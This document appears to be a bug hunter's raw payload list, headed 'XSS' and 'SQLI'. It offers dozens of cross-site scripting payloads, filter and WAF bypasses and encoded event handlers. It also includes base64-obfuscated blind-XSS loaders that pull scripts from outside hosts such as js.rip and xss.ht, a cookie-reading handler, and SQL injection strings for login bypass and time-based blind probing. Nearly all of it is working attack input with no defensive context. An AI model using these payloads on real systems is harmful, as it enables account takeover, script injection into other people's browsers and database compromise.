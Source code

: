 XSS XSS XSS XSS XSS XSS XSS XSS

0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z


"><script src="https://js.rip/8rbc6u9kxc"></script>


\u0022a


Ģ"';}}“></script><img src=x onerror=alert(69)>${{'7'*7}}

"><a nope="%26quot;x%26quot;"onmouseover="Reflect.get(frames,'ale'+'rt')(Reflect.get(document,'coo'+'kie'))">

&quot;&lt;script&gt;alert('bug_vs_me')&lt;/script&gt;

<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://w3.org/2000/svg'&gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />


"onmouseover=javascript:window.onerror=alert;throw[1]


"';}}“></script><img src=x onerror=alert``//>{{'7'*7}}



"><><img src=x onError=prompt(1)>

"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS5ieHNzLmluIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw onerror=eval(atob(this.id))>


javascript:eval(atob(`dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7`))

Above BXSS 


javascript:eval(atob('dmFyIHNjcmlwdFRhZyA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpOwogICAgICBzY3JpcHRUYWcuc3JjID0gImh0dHBzOi8vYnVndnNtZS4wMDB3ZWJob3N0YXBwLmNvbS9hbGVydC5qcyI7CiAgICAgIGRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJteS1zY3JpcHQiKS5hcHBlbmRDaGlsZChzY3JpcHRUYWcpOw==))



this.innerHTML=String.fromCharCode(60,105,109,103,32,115,114,99,61,39,120,39,32,111,110,101,114,114,111,114,61,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41,59,39,62)

<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x29;">xss</a>

"><a href=&#x6a;avascript:alert(0)//>xss</a>

https://storage.googleapis.com/bypass_csp/xss.js

https://accounts.google.com/o/oauth2/revoke?callback=alert(1)

>҉ðŸ˜‡Ÿ˜<҉💋😇"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>	

cloudflare bypass %26lt;svg%20on%20onload%3D(alert)(document.domain)>

“"><img/src/onerror=alert(0)>


"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>


%26quot;%26gt;%26lt;img%2Fsrc%2Fonerror%3Dalert()>


?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e 



+'alert(0)'+

"hello<form/><!><details/open/ontoggle=alert(1)>"
@gmail
.com


<img src=totallyfake onerror=import(‘//domain.com/‘);//


%2522%253e%253cscript%253ealert(0)%253c/script%253e

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3




<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre>
<base href=https://js.rip/8rbc6u9kxc>
<pre x=&#34;">
<code></code></pre>

<iframe/srcdoc='<script/src=/joaxcar_group/first/-/jobs/1415515489/artifacts/raw/data/alert.js></script>'></iframe>


%253Cscript%253Ealert('XSS')%253C%252Fscript%253E


"><input%20tabindex=%221%22%20on%00mousemove=alert()%20onm%00ouseover=%22eval(atob(this.id))%22%20id=%22dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7%22%20autofocus=%22%22%3E


"><input type=image src=x onerror=alert()>

"tabindex="1" onfocus="alert(1)" autofocus"


"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>

\x3Cscript\x3E alert()\x3C/script\x3E



/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)"


[![<img](https://www.linkpicture.com/q/get-started-button-1.svg)](https://www.linkpicture.com/q/34643474-rubber-stamp-with-text-do-not-open-inside-vector-illustration-1.svg)

![<img](https://www.linkpicture.com/q/get-started-button-1.svg)

"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//






SQLI SQLI SQLI SQLI SQLI 

admin' or '1'='1

'XOR(sleep(5))OR'
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
;%20waitfor%20delay%20'0:0:6'%20--%20

